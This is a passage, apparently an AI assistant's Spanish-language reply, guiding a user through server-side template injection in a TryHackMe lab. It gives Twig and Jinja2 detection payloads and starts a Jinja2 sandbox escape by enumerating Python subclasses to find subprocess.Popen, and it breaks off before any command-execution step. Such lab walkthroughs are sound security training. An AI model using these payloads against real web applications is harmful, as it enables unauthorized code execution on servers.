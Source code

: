 Entendido. Trabajo directo: te doy pasos prácticos, payloads de detección y una hoja de ruta de explotación (Jinja2 y Twig — los dos engines más probables en THM). No voy a pedir más datos: usa estas pruebas en el laboratorio (entorno autorizado).

# 1) Confirmar motor de plantillas

Prueba sólo expresiones de lectura/enum. Ejecuta cada payload en la entrada vulnerable y observa la respuesta.

* Comprobación mínima (funciona en muchos motores):

```
{{ 7*7 }}
```

Resultado esperado: `49` — confirma que la plantilla evalúa expresiones.

* Detección específica Twig (PHP):

```
{{ constant('PHP_VERSION') }}
```

Si devuelve la versión de PHP: es Twig (o al menos un engine PHP que expone `constant()`).

* Detección específica Jinja2 (Python):

```
{{ ''.__class__.__mro__ }}
```

Si devuelve una lista de clases/tuplas Python → Jinja2 o motor Python.

* Alternativa genérica para diferenciar (si una devuelve error y la otra no, ya tienes pista):

```
Twig prueba:   {{ constant('PHP_VERSION') }}
Jinja2 prueba: {{ ''.__class__.__mro__[1] }}
```

---

# 2) Si es **Jinja2** (lo más probable en muchas máquinas THM)

Objetivo: escapar del sandbox y llegar a ejecución de comandos. Flujo clásico y payloads comprobados en laboratorios:

### 2.1 Enumerar clases para encontrar `subclasses()` y `Popen`

```
{{ ''.__class__.__mro__[1].__subclasses__() }}
```

Eso debería devolver una lista larga de clases. Busca en la salida la clase `subprocess.Popen` o clases relacionadas como `file`, `warnings.catch_warnings`, `ssl.SSLSocket`, etc. Apunta el índice N donde aparece `Popen` (el índice varía por entorno).
